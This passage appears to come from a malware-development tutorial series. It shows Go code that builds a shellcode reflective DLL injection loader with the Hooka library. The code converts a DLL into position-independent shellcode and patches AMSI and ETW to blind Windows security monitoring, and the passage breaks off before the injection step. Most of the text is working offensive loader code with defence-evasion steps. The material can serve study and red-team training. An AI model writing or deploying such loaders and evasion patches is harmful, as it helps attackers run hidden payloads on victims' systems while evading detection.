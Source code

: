Okay, the first example is a little bit low-level so let's do something much more easy. It will be a sRDI loader (***Shellcode Reflective DLL Injection***). It will convert the given DLL to position independant shellcode and inject it as a common loader. Moreover we'll also add some extra security layers to show [Hooka](https://github.com/D3Ext/Hooka) and [maldev](https://github.com/D3Ext/maldev) potential. Both tools come with a specific function to convert a PE (Portable Executable) to shellcode.

To verify if the code works we'll use a MessageBox DLL example, the same I used on the 10th episode of the Malware Dev series. (code [here](https://github.com/D3Ext/malware-practices/blob/main/MalwareDevelopment/10-DLLHijacking/main.go))

As we did before we start with the packages

```go
package main

import (
	"flag"
	"fmt"
	"log"
	"os"

	"github.com/D3Ext/Hooka/pkg/hooka"
)
```

This time we'll also use the **flag** package to create CLI arguments

```go
var pe string
var function string

flag.StringVar(&pe, "p", "", "Portable Executable (PE) to convert to shellcode")
flag.StringVar(&function, "f", "", "function name to execute")
flag.Parse()
```

At this point we convert the given PE to shellcode, based on given function (in our case "main" which is the default)

```go
fmt.Println("[*] Converting " + pe + " to position independent shellcode...")
shellcode, err := hooka.ConvertDllToShellcode(pe, function, "")
if err != nil {
    log.Fatal(err)
}
```

To add more complexity to out sRDI loader, we'll also patch ETW and AMSI

```go
fmt.Println("[*] Patching AMSI...")
err = hooka.PatchAmsi()
if err != nil {
    log.Fatal(err)
}

fmt.Println("[*] Patching ETW...")
err = hooka.PatchEtw()
if err != nil {
    log.Fatal(err)
}
```
